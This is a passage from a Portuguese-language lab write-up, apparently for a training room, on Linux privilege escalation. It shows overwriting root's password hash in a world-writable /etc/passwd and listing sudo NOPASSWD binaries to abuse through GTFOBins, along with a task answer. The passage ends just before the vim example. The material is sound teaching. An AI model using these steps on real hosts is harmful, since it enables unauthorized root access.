 ```shell
user@debian:~$ ls -l /etc/passwd
-rw-r--rw- 1 root root 1009 Aug 25  2019 /etc/passwd
user@debian:~$ openssl passwd Senha123
lIkG5D1fwKsp6
user@debian:~$ vi /etc/passwd
user@debian:~$ su root
root@debian:/home/user# 
```

Outra forma, é adicionar um novo usuário com permissão de root, colocando a hash gerada no lugar do "x". Assim, não se altera o usuário root original.

### Questões:

- a. ***Run the "id" command as the newroot user. What is the result?*** *uid=0(root) gid=0(root) groups=0(root)*

## 6 - Sudo - Shell Escape Sequences 

Uma ação recomendada, após ganhar acesso a um host alvo, é verificar se o usuário que está logado possui alguma permissão sudo. Para isso:

```shell
sudo -l
```

Uma excelente fonte de consulta para aprender como explorar binários que estão autorizados no sudo é o [GTFOBins](https://gtfobins.github.io), a fim de se obter elevação de privilégios.

```shell
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```
Apenas para ilustar, [link](https://gtfobins.github.io/gtfobins/vim/) do GTFOBins com informações de elevação usando o comando vim.

Como os comandos estão configurados no sudo, eles são executados com permissão de superusuário. Portanto, é possível elevar privilégios usando alguns desses comandos.

Exemplo como vim:
